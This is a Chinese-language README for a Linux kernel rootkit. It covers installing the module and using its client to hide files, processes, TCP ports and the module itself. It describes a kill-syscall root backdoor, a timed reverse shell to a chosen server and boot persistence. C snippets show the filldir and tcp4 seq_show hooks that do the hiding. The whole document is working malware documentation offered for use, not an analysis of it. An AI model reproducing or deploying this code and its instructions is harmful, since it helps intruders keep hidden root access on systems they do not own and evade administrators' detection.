

# 说明文档

实验在ubuntu-16.04-server完成  
[[torrent]](http://old-releases.ubuntu.com/releases/16.04.0/ubuntu-16.04-server-amd64.iso.torrent)  
[[iso]](http://old-releases.ubuntu.com/releases/16.04.0/ubuntu-16.04-server-amd64.iso)  
apt update以后不要upgrade!!!

## 1. 安装Rootkit

```bash
sudo apt-get install linux-headers-$(uname -r)
chmod +x install.sh
sudo ./install.sh
```

## 2. 删除Rootkit

```bash
chmod +x remove.sh
sudo ./remove.sh
```

## 3. 文件结构

- client.c rootkit交互客户端
- install.sh 安装脚本
- remove.sh 卸载脚本
- Makefile 编译配置文件
- rootkit.c 源代码

## 1.3 使用方式

### 1.3.1 隐藏文件   

隐藏文件  
./client hide /etc/passwd  
显示文件  
./client unhide /etc/passwd  
可以隐藏除  /proc /run /dev /sys 以外目录的文件  

### 1.3.2 隐藏进程  

隐藏进程  
./client hideproc /proc/1  1这里就是你要隐藏的进程号  
显示进程  
./client unhideproc /proc/1 恢复隐藏的进程  

### 1.3.3 隐藏端口  

实现的是隐藏ipv4 tcp的端口  
隐藏端口  
./client hideport 22 隐藏22端口相关的信息  
显示端口  
./client unhideport 22 显示22端口相关的信息  

### 1.3.4 隐藏内核模块列表

编译client后，运行 ``./client show``可以隐藏lsmod中的模块信息  
再运行 ``./client show`` 会显示模块  
运行``./client hidesys /sys/module/rootkit``可以隐藏/sys/module下的对应模块目录  
运行``./client unhidesys /sys/module/rootkit``可以恢复/sys/module下的对应模块目录  

### 1.3.5 获取root权限

编译client后，运行 ``./client root``

## 1.4 实现功能及其原理

kernel源码可以参照 https://elixir.bootlin.com/linux/v4.4.21/ident/

### 定时后门

考虑到内网机器，定时反弹Shell到指定服务器

### 隐藏内核模块列表

+ 断链法
+ 隐藏 /sys/module
+ 隐藏 /proc/modules

### Root后门

hook kill的syscall，当接受到特定信号的时候，给予对应的权限

### 开机自启

向 ``/etc/rc3.d`` 目录下增加加载内核模块的语法

### 文件隐藏  

隐藏文件就是在系统遍历目录时隐藏指定的内容，文件目录信息的获取调用的是getdents以及getdents64这两个系统函数（过程相似），以getdents64为例。调用的流程大概如下：  

```
getdents64->iterate_dir->(file->f_op->iterate)->(dir_context->actor)->filldir
```

其中，filldir函数最终会将子目录的信息填充到buf缓冲区中。因此，在filldir中hook指定文件即可实现隐藏文件。  
hook filldir就需要先将iterate进行hook，通过打印根目录下的一级目录，发现整个文件系统中的iterate只有五个，分别是``/`` ``/proc`` ``/dev`` ``/run`` ``/sys``



因此，对五个iterate分别进行hook，即可隐藏文件系统中的任意文件。本项目隐藏了``/`` ``/proc`` ``/sys``  

对于iterate的hook，通过hook_file_op函数实现。  
对于filldir的hook，就是修改dir_context的actor的值。  
而对于具体的filldir的实现，因为要隐藏任意文件，采用一个链表来维护需要隐藏的文件的集合  
``common_node`` 对应 ``/``  
``proc_node`` 对应 ``/proc``  
``sys_node`` 对应 ``/sys``  
以隐藏``/``为例

``` c
asmlinkage int new_common_filldir(struct dir_context *ctx, const char *name, int namlen, loff_t offset, u64 ino, unsigned d_type)
{
    unsigned long d_ino;
    d_ino = ino;
    list_for_each(common_node_pos, &common_node_head){
        tmp_common_node = list_entry(common_node_pos,struct common_node,list);
        if(d_ino == tmp_common_node->hide_ino){
            return 0; //如果当前文件的inode在要隐藏的链表中，直接return，不再后续处理
        }
    }
    return org_common_filldir(ctx, name, namlen, offset, ino, d_type); //hook完调用原来的逻辑继续执行
}
```

可以发现传入的参数有一个``u64 ino``参数，这个参数是指当前文件的inode，inode在文件系统中可以唯一定位到一个物理的文件，我们通过这个来判断这个文件是不是我们要隐藏的文件。流程如下：  
传入要隐藏的文件fd->获取inode插入链表->hook的filldir遍历链表判断当前ino是否和链表中的某个相等->相等即为要隐藏的文件，直接return  

### 进程隐藏

隐藏进程，本质上还是对于文件的隐藏，比如pid为1的进程，隐藏/proc/1即可  
复用文件隐藏的功能即可  

### 端口隐藏

端口信息是通过读取/proc下的文件实现的，有四个文件：``/proc/net/tcp`` ``/proc/net/tcp6`` ``/proc/net/udp`` ``/proc/net/udp6``  分别是ipv4的tcp udp和ipv6的tcp udp  
对应的，又有四个show函数来操作``tcp4_seq_show`` ``tcp6_seq_show`` ``udp4_seq_show`` ``udp6_seq_show``  
以下以tcp ipv4为例讲解，本项目也是只实现了tcp ipv4，每个都差不多，因为主要用来隐藏比如ssh、proxy之类建立的端口，tcp ipv4比较常用就实现了这个。
查看/net/ipv4/tcp_ipv4.c的代码，可以整理出大致的调用链如下： 

```
tcp_seq_open->seq_open_net->__seq_open_private->seq_open
```

seq_open的op为show时就会输出信息到buf缓冲区。  
观察tcp_seq_open的源码，发现一个结构体tcp_seq_afinfo

``` c
int tcp_seq_open(struct inode *inode, struct file *file)
{
	struct tcp_seq_afinfo *afinfo = PDE_DATA(inode);
	struct tcp_iter_state *s;
	int err;

	err = seq_open_net(inode, file, &afinfo->seq_ops,
			  sizeof(struct tcp_iter_state));
	if (err < 0)
		return err;

	s = ((struct seq_file *)file->private_data)->private;
	s->family		= afinfo->family;
	s->last_pos		= 0;
	return 0;
}
```

tcp_seq_afinfo

``` c
struct tcp_seq_afinfo {
	char				*name;
	sa_family_t			family;
	const struct file_operations	*seq_fops;
	struct seq_operations		seq_ops;
};
```

seq_operations

``` c
struct seq_operations {
	void * (*start) (struct seq_file *m, loff_t *pos);
	void (*stop) (struct seq_file *m, void *v);
	void * (*next) (struct seq_file *m, void *v, loff_t *pos);
	int (*show) (struct seq_file *m, void *v);
};
```

可以看到存在了一个show函数。  
hook tcp_seq_afinfo结构体的seq_ops即可，通过hook_afinfo_seq_op函数实现。  
show的具体实现如下：

``` c
int new_seq_show(struct seq_file *seq, void *v) {
    int ret=0;
    char needle[NEEDLE_LEN]; //存端口号
    ret = org_seq_show(seq, v); //调用原始的show函数先缓存区写一行
    list_for_each(port_node_pos, &port_node_head){
        tmp_port_node = list_entry(port_node_pos,struct port_node,list);
        snprintf(needle, NEEDLE_LEN, ":%04X", tmp_port_node->port); //转换成/proc/net/tcp格式的port形式
        if (strnstr(seq->buf + seq->count - TMPSZ, needle, TMPSZ)) { //如果缓冲区的最新一行中包含指定的port
            seq->count -= TMPSZ; //从缓冲区删除这行
            break;
        }
    }
    return ret;
}
```

因为原本的show函数，会向缓冲区里一行行的写数据，每行都是固定长度的，即TMPSZ 150的值。因此每次只要比对当前最新的一行即可。  
同时，为了实现任意端口的隐藏，也维护了一个port_node的链表来实现，不赘述。